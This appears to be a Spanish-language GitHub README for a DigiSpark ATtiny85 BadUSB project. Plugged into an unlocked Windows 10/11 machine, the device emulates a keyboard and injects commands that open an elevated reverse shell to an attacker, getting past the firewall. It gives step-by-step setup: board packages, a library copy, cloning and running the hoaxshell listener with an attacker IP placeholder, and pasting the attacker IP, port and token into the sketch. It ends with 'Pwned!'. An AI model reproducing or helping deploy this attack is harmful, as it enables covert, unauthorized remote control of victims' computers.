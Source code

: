 # Descripción
Script para **DigiSpark ATtiny85** que genera una shell inversa con permisos elevados desde una máquina Windows víctima hacia una máquina atacante, logrando evadir el firewall. El ataque se activa al conectar el dispositivo al puerto USB con la sesión iniciada: el DigiSpark emula un teclado e inyecta los comandos de forma automática, sin intervención del usuario, estableciendo la conexión con la máquina atacante.

# Compatibilidad 

Este proyecto **solo funciona correctamente bajo las siguientes condiciones**:
- 🪟 **Sistema operativo victima**: Windows 10/11
- ⌨️ **Distribucion de teclado victima**: Español Latam (Puede configurarse para otras distribuciones en el propio script .ino)
- 🖥️ **Sesión activa**: Escritorio desbloqueado y sesión iniciada

 
## 🛠️ Requerimientos
1. Tener instalado Arduino IDE [Ver Arduino IDE](https://www.arduino.cc/en/software/)
2. Descargar e instalar DigiStump Board 1.6.7 a traves del Boards Manager de Arduino (Configuración)
```
   https://raw.githubusercontent.com/digistump/arduino-boards-index/refs/heads/master/package_digistump_index.json
```
3. Copiar la carpeta DigisparkKeyboard del repositorio y pegarla en:
```
C:\Users\tu_usuario\AppData\Local\Arduino15\packages\digistump\hardware\avr\1.6.7\libraries\
```
3. Descargar e instalar la herramienta Hoaxshell de su repositorio oficial:
```
git clone https://github.com/t3l3machus/hoaxshell
```
*Seguir los pasos de instalación y configuración propias del repositorio oficial de hoaxshell* 

## 🚀 Uso

1. Ejecutar Hoaxshell.py, copiar el token generado en $i y dejar ejecutandose
```python
python3 ./hoaxshell.py -s IP_ATACANTE -r -H 'Authorization'
```
![image](https://github.com/user-attachments/assets/8da49bb0-b57a-4613-9a5a-1bc4f6299157)


2. Abrir Arduino con el script, modificar las variables y seleccionar Digispark 16.5 Board:

- IP_AND_PORT_ATTACKER: Pegar tu IP y puerto de maquina atacante
- TOKEN: Pegar el token generado por hoaxshell
- TOKEN_PART1: Pegar primera parte del token
- TOKEN_PART2: Pegar segunda parte del token
- TOKEN_PART3: Pegar tercera parte del token

![image](https://github.com/user-attachments/assets/9418035f-eaa7-4b05-ae3b-a7bd19dd68d6)



3. Compilar y cargar a nuestro ATTINY-85

4. Conectar el dispositivo a la máquina victima y esperamos la respuesta en nuestra máquina de atacante.

5. Pwned!
   
![image](https://github.com/user-attachments/assets/5c8ce65b-5abe-4dae-a521-7f1f90dc95a5)



